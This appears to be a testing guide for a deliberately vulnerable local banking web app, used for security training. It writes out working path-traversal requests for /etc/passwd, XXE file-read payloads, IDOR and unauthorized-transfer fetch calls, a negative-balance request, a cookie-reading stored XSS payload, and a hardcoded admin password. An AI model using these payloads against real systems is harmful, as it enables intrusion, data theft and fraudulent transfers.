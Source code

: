# 🧪 VULNERABILITY TESTING SCRIPT

This file demonstrates how to test all implemented vulnerabilities.

## Prerequisites
```bash
# Make sure the application is running
docker-compose up -d

# The application should be accessible at:
# - Frontend: http://localhost
# - Backend API: http://localhost:8080
```

## 🔐 Admin Credentials
- **Username:** admin  
- **Password:** SecureAdmin123!

---

## 🧪 VULNERABILITY TESTS

### 1. Test Path Traversal Vulnerability

#### Read Application Properties
```bash
curl "http://localhost:8080/api/files/read/../../../application.properties"
```

#### Try to Read System Files (Linux)
```bash
curl "http://localhost:8080/api/files/read/../../../etc/passwd"
```

#### Try to Read System Files (Windows)
```bash
curl "http://localhost:8080/api/files/read/../../../windows/system32/drivers/etc/hosts"
```

#### List Directory Contents
```bash
curl "http://localhost:8080/api/files/list?directory=../../../"
```

### 2. Test XXE Vulnerability

#### Basic XXE Attack
```bash
curl -X POST "http://localhost:8080/api/xml/import" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE transaction [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<transaction>
  <description>&xxe;</description>
</transaction>'
```

#### XXE with Error Disclosure
```bash
curl -X POST "http://localhost:8080/api/xml/process" \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE transaction [
  <!ENTITY xxe SYSTEM "file:///application.properties">
]>
<transaction>
  <description>&xxe;</description>
</transaction>'
```

### 3. Test IDOR Vulnerabilities (Requires Authentication)

#### Step 1: Login to get session
```bash
# Use the frontend at http://localhost to login first
# Or register a new user via API:
curl -X POST "http://localhost:8080/api/auth/register" \
  -H "Content-Type: application/json" \
  -d '{"username":"hacker","password":"password123","fullName":"Ethical Hacker"}'
```

#### Step 2: Test Account Access (after authentication in browser)
```javascript
// In browser console after login:
fetch('/api/accounts')
  .then(response => response.json())
  .then(data => console.log('All accounts exposed:', data));
```

#### Step 3: Test Unauthorized Transfer
```javascript
// In browser console - transfer from any account:
fetch('/api/accounts/transfer', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    fromAccountId: 1,  // Any account ID
    toAccountNumber: "YOUR-ACCOUNT-NUMBER",
    amount: 50000,
    description: "Unauthorized transfer via IDOR"
  })
})
.then(response => response.json())
.then(data => console.log('Transfer result:', data));
```

### 4. Test Business Logic Flaw

#### Transfer More Money Than Available
```javascript
// In browser console after login:
fetch('/api/accounts/transfer', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    fromAccountId: 1,
    toAccountNumber: "ADMIN-002",
    amount: 999999999,  // Huge amount
    description: "Business logic bypass - negative balance"
  })
})
.then(response => response.json())
.then(data => console.log('Negative balance created:', data));
```

### 5. Test Information Disclosure

#### View Any User's Accounts
```javascript
// In browser console after login:
// Try different user IDs
fetch('/api/accounts/user/1')
  .then(response => response.json())
  .then(data => console.log('User 1 accounts:', data));
```

#### View Any Account's Transactions
```javascript
// In browser console after login:
fetch('/api/accounts/1/transactions')
  .then(response => response.json())
  .then(data => console.log('Account 1 transactions:', data));
```

### 6. Test Stored XSS

#### Create Malicious Transfer Description
```javascript
// In browser console after login:
fetch('/api/accounts/transfer', {
  method: 'POST',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({
    fromAccountId: 1,
    toAccountNumber: "ADMIN-001",
    amount: 1,
    description: "<script>alert('XSS Attack! Cookie: ' + document.cookie)</script>"
  })
})
.then(response => response.json())
.then(data => console.log('XSS payload stored:', data));
```

---

## 🎯 TESTING WITH BURP SUITE

### Setup Instructions:
1. Configure your browser to use Burp proxy (127.0.0.1:8080)
2. Navigate to http://localhost
3. Intercept and modify requests to test vulnerabilities

### Key Testing Points:
- **IDOR**: Change account IDs in transfer requests
- **Parameter Manipulation**: Modify amounts, descriptions
- **Path Traversal**: Inject ../ sequences in file parameters
- **XXE**: Send malicious XML payloads
- **SQL Injection**: Test description search with SQL payloads

---

## 🔍 AUTOMATED SCANNING

### OWASP ZAP
```bash
# Quick scan
zap-cli quick-scan --self-contained http://localhost

# Full scan
zap-cli active-scan --self-contained http://localhost
```

### Nikto
```bash
nikto -h http://localhost:8080
```

---

## 📊 EXPECTED RESULTS

✅ **Path Traversal**: Should be able to read application.properties  
✅ **XXE**: Should return file contents in XML responses  
✅ **IDOR**: Should access other users' accounts and perform unauthorized transfers  
✅ **Business Logic**: Should create negative account balances  
✅ **Information Disclosure**: Should view all accounts and transactions  
✅ **XSS**: Should store and execute malicious scripts  

---

**Remember: Only test against your own systems or with explicit permission!**
